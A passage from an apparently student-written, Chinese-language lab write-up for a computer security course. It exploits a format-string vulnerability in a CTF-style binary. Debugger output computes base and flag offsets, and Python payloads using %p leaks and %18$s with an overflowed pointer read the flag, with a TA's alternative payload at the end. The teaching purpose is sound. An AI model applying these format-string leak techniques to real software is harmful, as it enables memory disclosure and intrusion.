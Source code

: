     0x0000555555556000 0x0000555555557000 0x0000000000002000 r-- /mnt/d/NTU/Second Year/Computer Security/PWN/Lab2/lab_fmt_leak/share/chal
    0x0000555555557000 0x0000555555558000 0x0000000000002000 r-- /mnt/d/NTU/Second Year/Computer Security/PWN/Lab2/lab_fmt_leak/share/chal
    ```
    ```bash
    gef➤  p/x 0x00005555555551e9-0x0000555555554000
    $8 = 0x11e9
    gef➤  p &flag
    $9 = (<data variable, no debug info> *) 0x555555558040 <flag>
    gef➤  p/x 0x555555558040-0x0000555555554000
    $10 = 0x4040
    ```
    從以上結果得知，leak出來的位址，他距離base address的offset是0x11e9，而flag的位置在`0x555555558040`，他的offset就是0x4040
2. Construct Payload
    經過換算$(0x00007fffffffd778 - 0x00007fffffffd640) / 8 + 6 = 45$，這樣我們就可以把該位置的value leak出來
    ```python
    payload = b'%p.' * (39 + 6) + b'\n'
    ```
3. Calculate Flag Address
    ```python
    text_offset = 0x11e9
    flag_offset = 0x4040
    text_addr = int(r.recvline().split(b'.')[-2], 16)
    text_base = text_addr - text_offset
    flag_addr = text_base + flag_offset
    ```
4. Write Flag Address to Stack
    做這一步的意思是因為flag本身不在stack上，他是在其他section上，所以我們只能用`%s`讓他讀flag address指向的value，但首先我們要利用BOF的漏洞寫上flag address，再利用FMT讀出來，這個地方和上課時助教寫的不太一樣，其實不需要這麼的麻煩，利用`k$`就可以指定要讀取哪一個stack value，所以以下的payload中出現的18, 0x50是有連動關係的，且可以自定義，但不建議寫的太近(距離我們輸入的stack address)，因為有可能最後被不明原因而蓋掉
    ```python
    payload = b'%18$s'
    payload = payload.ljust(0x50, b'\x00')
    payload += p64(flag_addr)
    ```
    實際寫上stack後會變成
    ```
    0x00007fff99758830│+0x0000: 0x00000000000c0000   ← $rsp
    0x00007fff99758838│+0x0008: 0xffffffff00000008
    0x00007fff99758840│+0x0010: 0x0000007324383125 ("%18$s"?)        ← $rsi
    0x00007fff99758848│+0x0018: 0x0000000000000000
    0x00007fff99758850│+0x0020: 0x0000000000000000
    0x00007fff99758858│+0x0028: 0x0000000000000000
    0x00007fff99758860│+0x0030: 0x0000000000000000
    0x00007fff99758868│+0x0038: 0x0000000000000000
    0x00007fff99758870│+0x0040: 0x0000000000000000
    0x00007fff99758878│+0x0048: 0x0000000000000000
    0x00007fff99758880│+0x0050: 0x0000000000000000
    0x00007fff99758888│+0x0058: 0x0000000000000000
    0x00007fff99758890│+0x0060: 0x000055e273743040  →  <flag+0> add BYTE PTR [rax], al
    ```
    可以稍微手動算一下，`0x00007fff99758890│+0x0060`以fmt的角度來說就是5+13=18，代表他是第18個，此時我們就拿到flag了
    :::spoiler TA的payload version
    ```python
    payload = b'%p' * 0x17 + b'.' + b'%s'
    payload = payload.ljust(0x80, b'\x00')
    payload += p64(flag_addr)
    ```
    :::

